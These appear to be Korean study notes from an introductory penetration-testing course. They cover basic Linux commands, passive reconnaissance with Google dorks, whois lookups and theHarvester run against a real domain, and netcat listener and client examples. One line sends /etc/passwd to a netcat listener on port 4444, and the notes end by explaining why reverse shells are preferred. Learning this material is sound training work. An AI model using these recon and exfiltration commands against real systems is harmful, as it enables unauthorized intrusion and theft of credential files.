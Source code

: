 man john -> 옵션, 명령어를 보여줌
which ~ -> 위치를 알려줌
find ~ -> 파일을 찾을때 사용
touch ~ -> 파일 생성
find / I grep whitehacker -> whitehacker 라는 문자열을 찾는 명령어 (greb -> 문자열 찾는 명령어)
gedit ~ -> 메모장 같은 텍스트 편집기
vi ~ -> 터미널에서의 메모장 i를 누르고 텍스트입력가능 입력후 exc누르고 다시 입력가능
nano ~ -> 터미널에서의 메모장 ^는 ctrl 
service ~ -> 어떤 서비스를 껐다켰다 하는 명령어
service --statuse-all -> 전체의 서비스를 보여줌
패시브 스캐닝
모의해킹의 첫번째 단계 정보수집
- 패시브 스캐닝 = 정찰 (패시브는 소극적 공격대상에 직접 접속x 구글같은 검색사이트 이용하거나 제3의 사이트를 이용)
site:~ -> 그 사이트에 대해서만 검색
site:~ -site:www.~ ->www. 사이트만 제외하고 검색
site:~ filetype:pdf -> 특정사이트내 pdf파일 검색
inurl:admin ->관리자가 특정사이트내에 존재하는지 검색
intitle:"index of" -> 웹페이지의 제목에 어떤 문자열이 있는지 아는법 
디렉토리 리스팅에 취약한 경우 index of 로 검색해서 디렉토리나 파일에 접근가능  
//exploit-db.com -> 사이트 확인바람
searchdns.netcraft.com -> 특정 사이트에 대해 운영체제, 도메인 등 정보확인 가능
whois.kisa.or.kr/kor/main.jsp -> 특정사이트에 대해 정보확인 가능
theharvester -d bloter.net -b google -> 특정 이메일 주소 확인 가능
nc -h -> 넷캣 명령어 클라이언트모드 서버모드 구현가능 (서로 동작가능)
공격대상
nc -lvp 4444 
nc -lvp 4444 > passwd 
클라이언트
nc 127.0.0.1 4444
nc -q 0 127.0.0.1 4444 < /etc/passwd (-q 0 -> 종료)
바인드쉘을 안하고 리버스쉘을 하는이유
-> 방화벽때문